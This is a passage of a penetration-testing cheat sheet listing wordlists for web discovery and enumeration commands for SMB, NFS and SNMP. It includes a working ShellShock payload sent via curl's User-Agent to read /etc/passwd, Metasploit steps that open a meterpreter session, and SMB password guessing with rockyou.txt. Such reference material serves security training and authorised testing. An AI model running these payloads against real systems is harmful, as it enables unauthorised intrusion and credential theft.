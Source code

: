  - `/usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt`

 - `/usr/share/seclists/Discovery/Web_Content/common.txt`

 - `/usr/share/seclists/Discovery/Web-Content/web-extensions.txt`

 - `/usr/share/seclists/Discovery/Web-Content/quickhits.txt`

   -- note: you need to use -t option with dirb on the quickhits wordlist (every line begins with forward-slash [/])

### ShellShock

**There are many ways to handle a shellshock vulnerability, from browser extensions/plugins to python scripts to Metasploit...**

- User-Agent method:

Set your user-agent string in your browser or use cURL to rek:

`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://<targetIP>/cgi-bin/status`

- msfconsole method:

```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
 # set RHOSTS, TARGETURI and adjust CMD to your liking; if your scan pops positive:
msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
 # set RHOSTS and TARGETURI, run or exploit and enjoy your meterpreter session!
```

### SMB
**TCP 139, 445**

- `enum4linux -a <targetIP>`

- `nmap -p 135-139,445 --script=smb-vuln* <targetIP>`

- `nmap -sV -Pn -vv -p 445 --script-args smbuser=<username>,smbpass=<password> --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 <targetIP>`

- `smbmap -u user -p password -d workgroup -H <targetIP>`

- `acccheck -v -t <targetIP> -u root -P /usr/share/wordlists/rockyou.txt`

### NFS
**TCP 2049 / UDP 2049 & multiple ephemeral tcp/udp**

`showmount -e <targetIP>`

### SNMP
**UDP 161**

- `snmpwalk -c public -v1 <targetIP>`

- `onesixtyone -o onesixtyone-communities.txt <targetIP>`
